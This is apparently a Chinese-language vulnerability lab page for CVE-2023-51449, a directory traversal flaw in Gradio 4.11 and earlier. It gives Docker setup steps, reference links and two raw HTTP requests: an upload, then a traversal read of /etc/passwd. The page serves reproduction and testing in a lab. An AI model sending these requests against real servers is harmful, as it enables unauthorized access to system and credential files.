


Gradio 目录穿越漏洞（CVE-2023-51449）¶
Gradio是一个Python库，允许用户无需编写前端代码即可为机器学习模型快速构建可视化Web界面。
在 Gradio 4.11 及更早版本中，如果未启用身份验证，知道文件路径的攻击者可以使用公共URL访问运行Gradio应用程序的服务器上的任意文件。
参考链接：
- https://github.com/gradio-app/gradio/pull/6833
- https://github.com/gradio-app/gradio/security/advisories/GHSA-6qm2-wpxq-7qh2
环境启动¶
执行如下命令启动一个由Gradio 4.10.0编写的应用：
docker compose up -d
环境启动后，默认未开启身份验证。你可以通过http://your-ip:7860访问该应用。
漏洞复现¶
首先，使用upload接口上传任意文件，获取一个可访问的文件路径。
POST /upload HTTP/1.1
Host: localhost:7860
Content-Type: multipart/form-data; boundary=---------------------------250033711231076532771336998311
-----------------------------250033711231076532771336998311
Content-Disposition: form-data; name="files";filename="okmijnuhbygv"
Content-Type: application/octet-stream
123456
-----------------------------250033711231076532771336998311--

获得可访问的文件路径后，利用file接口配合目录穿越，即可读取服务器上的任意文件，例如/etc/passwd：
GET /file=/tmp/gradio/7c4a8d09ca3762af61e59520943dc26494f8941b/../../../../../../../../../../../../../../../etc/passwd HTTP/1.1
Host: localhost:7860
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.75 Safari/537.36 Edg/100.0.1185.36
Connection: close
Accept-Encoding: gzip
